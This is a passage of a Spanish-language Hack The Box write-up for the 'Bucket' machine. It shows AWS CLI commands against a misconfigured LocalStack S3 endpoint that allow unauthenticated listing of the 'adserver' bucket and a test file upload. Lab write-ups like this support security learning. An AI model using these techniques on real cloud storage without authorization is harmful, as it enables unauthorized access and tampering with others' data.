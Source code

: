 ...

## Explotación [#](#explotacion) {#explotacion}

Listos, leyendo sabemos que podemos subir archivos al `bucket`, siguiendo la [guía oficial](https://docs.aws.amazon.com/cli/latest/userguide/install-cliv2-linux.html) logramos instalar `aws cli`, nos apoyaremos de él para jugar con todo el entorno.

Sabemos que podemos subir, borrar, actualizar y borrar objetos sobre el `bucket`. Por ejemplo para listar los objetos del `bucket` haríamos algo así:

* S3 Bucket Misconfigured Access Controls - [Medium.com/BugBountyWriteup](https://medium.com/bugbountywriteup/s3-bucket-misconfigured-access-controls-to-critical-vulnerability-6b535e3df9a5).

```bash
–» aws s3 ls s3://s3.bucket.htb/
```

(Nos pide que agreguemos unas credenciales válidas :P, busque pero no encontré, así que puse cualquiera :P)

Pero si recordamos la URL con la que llegamos acá fue `http://s3.bucket.htb/adserver/images/` y ya sabiendo que estamos manejando `buckets`, lo más seguro es que `adserver` sea uno de ellos.

```bash
–» aws s3 ls s3://s3.bucket.htb/adserver/images/

An error occurred (InvalidAccessKeyId) when calling the ListObjectsV2 operation: The AWS Access Key Id you provided does not exist in our records.
```

El tema es que obtenemos un error con respecto al `AccessKeyId` ): Acá estuve full perdido, buscando y buscando, al límite del desespero :P pero sin resignarme encontré mi salvación:

* Working with localstack CLI - [lobster1234/github.io](https://lobster1234.github.io/2017/04/05/working-with-localstack-command-line/).

```bash
–» aws --endpoint-url=http://s3.bucket.htb s3 ls s3://adserver/images/
2020-12-25 19:24:04      37840 bug.jpg
2020-12-25 19:24:04      51485 cloud.png
2020-12-25 19:24:04      16486 malware.png
```

Perfectoooooooooooooooooooooooo, intentemos subir un archivo:

```bash
–» cat upupup.txt 
hola padreeeeeeeeeeeeeeee!!
· ~/sec/htb/bucket/content ·
–» aws --endpoint-url=http://s3.bucket.htb s3 cp upupup.txt s3://adserver/images/
upload: ./upupup.txt to s3://adserver/images/upupup.txt          
· ~/sec/htb/bucket/content ·
–» aws --endpoint-url=http://s3.bucket.htb s3 ls s3://adserver/images/
2020-12-25 19:30:03      37840 bug.jpg
2020-12-25 19:30:03      51485 cloud.png
2020-12-25 19:30:03      16486 malware.png
2020-12-25 19:31:01         28 upupup.txt
```
